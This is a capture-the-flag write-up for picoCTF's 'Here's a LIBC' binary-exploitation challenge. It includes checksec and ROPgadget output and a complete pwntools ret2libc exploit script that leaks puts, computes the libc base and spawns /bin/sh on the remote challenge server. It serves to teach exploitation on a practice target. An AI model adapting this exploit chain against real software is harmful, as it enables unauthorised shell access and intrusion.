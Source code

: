 # here's a libc
> challenge description: I am once again asking for you to pwn this binary vuln libc.so.6 Makefile nc mercury.picoctf.net 1774

given: binary vuln, libc.so.6, Makefile

## running the binary locally

gives a segmentation fault.

fixed this with pwninit (grabs the correct linker and creates a new binary that i can actually run called vuln_patched)

```console
┌──[user@parrot]─[~/ctfs/picoCTF/binary_exploitation/Heres_a_LIBC]
└──╼ $./vuln_patched 
WeLcOmE To mY EcHo sErVeR!
test
TeSt
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAAAAAAAAAAAAAAAAAAAAd
Segmentation fault
```

## finding the vulnerability

looks like there's a basic stack-based overflow.

but NX is enabled, so if the normal buffer-overflow exploits try to put code on the stack and execute it, it won't work.

```console
┌─[user@parrot]─[~/ctfs/picoCTF/binary_exploitation/Heres_a_LIBC]
└──╼ $checksec vuln_patched
[*] '/home/user/ctfs/picoCTF/binary_exploitation/Heres_a_LIBC/vuln_patched'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
```
## bypassing NX bit using return-to-libc

requirement: a basic stackbased overflow vulnerability

since ALSR is disabled, libc base address would remain constant/static 

ROPGadets in x64:
* pop rdi is used to pop stack into rdi because in 64 bit arch, argumgents are put into register instead of stack
* 4 argument is rdi ->rsi -> rdx -> rcx

#### find a pop rdi to use

```zsh
┌─[user@parrot]─[~/ctfs/picoCTF/binary_exploitation/Heres_a_LIBC]
└──╼ $ROPgadget --binary vuln_patched | grep rdi;
0x00000000004006c9 : and bl, ch ; or cl, byte ptr [rdi] ; mov dh, 0x45 ; cld ; jmp 0x4006d6
0x00000000004006cb : or cl, byte ptr [rdi] ; mov dh, 0x45 ; cld ; jmp 0x4006d6
0x00000000004006c2 : or dword ptr [rdi], ecx ; mov dh, 0x45 ; cld ; add eax, 0x20 ; jmp 0x4006d6
0x0000000000400913 : pop rdi ; ret
0x00000000004006c8 : shl byte ptr [rax], 0xeb ; or cl, byte ptr [rdi] ; mov dh, 0x45 ; cld ; jmp 0x4006d6

```

#### find the offset needed to overwrite rsp

```console
x/xg $rsp

```

#### find the address of the puts function in the GOT and PLT (Procedural Link Table) of the binary.

```console
objdump -D vuln_patched | grep puts
```

### final exploit script
```python
#!/usr/bin/env python3

# https://akshit-singhal.medium.com/rop-chain-exploit-with-example-7e444939a2ec

from pwn import *

exe = ELF("./vuln_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("mercury.picoctf.net", 1774)

    return r


def main():
    p = conn()
    context(os='linux', arch='amd64')
    put_plt_addr = p64(0x400540)                     # $ objdump -D vuln_patched | grep puts;;; (400540:	ff 25 d2 0a 20 00    	jmp    *0x200ad2(%rip))
    put_got_addr = p64(0x601018)                     # $ objdump -D vuln_patched | grep puts;;; (# 601018 <puts@GLIBC_2.2.5>)
    main_plt_addr = p64(0x400771)                    # $ objdump -D vuln_patched | grep main;;; (0000000000400771 <main>:)
    pop_rdi_gadget = p64(0x400913)                   # $ ROPgadget --binary vuln_patched | grep rdi; (0x0000000000400913 : pop rdi ; ret)
    
    # gdb > pattern create 200 > x/xg $rsp > pattern offset 0x41416d4141514141 for padding
    payload = b'A'*136
    payload += pop_rdi_gadget
    payload += put_got_addr
    payload += put_plt_addr
    payload += main_plt_addr
    p.clean()
    p.sendline(payload)
    p.recvline()
    p.recvline()

    received_line = p.recvline().strip()
    leaked = u64(received_line.ljust(8, b"\x00"))
    log.info(f"leaked address: {hex(leaked)}")

    libc.address = leaked - libc.symbols['puts']    # finding offset
    log.info(f"libc base address: {hex(libc.address)}")

    bin_sh = next(libc.search(b"/bin/sh"))
    system = libc.symbols['system']
    ret = p64(0x40052e)                             # $ ROPgadget --binary vuln_patched | grep ret;; (find only "ret" instruction & add to avoid segfault)

        # segfault will occur due to alternative stack alignments in Ubuntu 18.04. 
        # solution is to find a simple ret address within the binary, and use that to re-align the stack after using /bin/sh
    
    log.info(f"/bin/sh: {hex(bin_sh)}")
    log.info(f"system: {hex(system)}")

    payload2 = b'A'*136
    payload2 += pop_rdi_gadget
    payload2 += p64(bin_sh)
    payload2 += ret
    payload2 += p64(system)
    
    p.clean()

    # log.info("Payload 2: " + str(payload2))

    p.sendline(payload2)
    p.interactive()

if __name__ == "__main__":
    main()
```
